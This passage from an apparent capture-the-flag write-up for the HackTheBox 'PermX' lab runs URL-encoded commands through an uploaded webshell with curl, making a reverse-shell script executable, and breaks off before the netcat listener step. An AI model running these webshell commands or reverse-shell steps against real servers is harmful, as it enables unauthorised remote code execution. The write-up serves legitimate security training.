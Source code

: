 - List the long format of all entries in the directory once more to confirm the upload.

    #### Terminal

    ```bash
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=%6c%73%20%2d%6c%61
    ```

    #### Output

    ```
    total 16
    drwxr-xr-x 2 www-data www-data 4096 Oct 25 01:24 .
    drwxr-xr-x 6 www-data www-data 4096 Jan 20  2024 ..
    -rw-r--r-- 1 www-data www-data   67 Oct 25 01:24 rev_shell.sh
    -rw-r--r-- 1 www-data www-data   33 Oct 25 00:20 webshell.php
    ```

- The next step to executing a reverse shell is to give the file execute permissions. The command is 'chmod +x rev_shell.sh', however, we'll need to encode this to get past the white spaces and special characters.

    #### Terminal

    ```bash
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=%63%68%6d%6f%64%20%2b%78%20%72%65%76%5f%73%68%65%6c%6c%2e%73%68'
    ```

- Once more we list the directory contents to confirm that we added execute permissions to our rev_shell.sh file.

    #### Terminal

    ```bash
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=%6c%73%20%2d%6c%61
    ```

    #### Output

    ```
    total 16
    drwxr-xr-x 2 www-data www-data 4096 Oct 25 01:24 .
    drwxr-xr-x 6 www-data www-data 4096 Jan 20  2024 ..
    -rwxr-xr-x 1 www-data www-data   67 Oct 25 01:24 rev_shell.sh
    -rw-r--r-- 1 www-data www-data   33 Oct 25 00:20 webshell.php
    ```

- To complete the reverse shell, we'll need to set up a port to listen on our attack machine using the netcat cli tool, and we'll need to execute rev_shell.sh on the victim machine.

    #### Netcat listening port
